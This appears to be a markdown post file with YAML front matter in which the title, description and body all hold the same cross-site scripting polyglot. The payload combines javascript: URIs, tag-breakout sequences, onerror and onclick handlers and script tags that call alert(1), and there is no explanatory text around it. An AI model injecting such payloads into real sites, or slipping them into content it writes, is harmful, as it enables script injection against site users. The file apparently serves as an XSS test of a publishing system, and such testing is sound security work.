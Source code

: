 ```yaml
---
title: >-
  javascript:alert(1)//\";alert(1);<!--jaVasCript:/*-/*`/*\`/*'/*"/**/(/*
  */oNcliCk=alert() )//%0D%0A%0d%0a//--><FRAME
  SRC="javascript:alert(1);"></textarea></style></iframe></noscript></noembed></template></option></select></script><img
  src=x onerror=alert(1)></title><script>alert(1)</script><img src=0
  onerror=alert(1)><img src=x:x onerror=alert(1)> alert(1)//
date: 2018-11-01T07:18:46.649Z
description: >-
  javascript:alert(1)//\";alert(1);<!--jaVasCript:/*-/*`/*\`/*'/*"/**/(/*
  */oNcliCk=alert() )//%0D%0A%0d%0a//--><FRAME
  SRC="javascript:alert(1);"></textarea></style></iframe></noscript></noembed></template></option></select></script><img
  src=x onerror=alert(1)></title><script>alert(1)</script><img src=0
  onerror=alert(1)><img src=x:x onerror=alert(1)> alert(1)//
image: null
---
```

javascript:alert(1)//\\";alert(1);<!--jaVasCript:/\*-/\*\`/\*\\\`/\*'/\*"/\*\*/(/\* \*/oNcliCk=alert() )//%0D%0A%0d%0a//--><FRAME SRC="javascript:alert(1);"></textarea></style></iframe></noscript></noembed></template></option></select></script><img src=x onerror=alert(1)></title><script>alert(1)</script><img src=0 onerror=alert(1)><img src=x:x onerror=alert(1)> alert(1)//

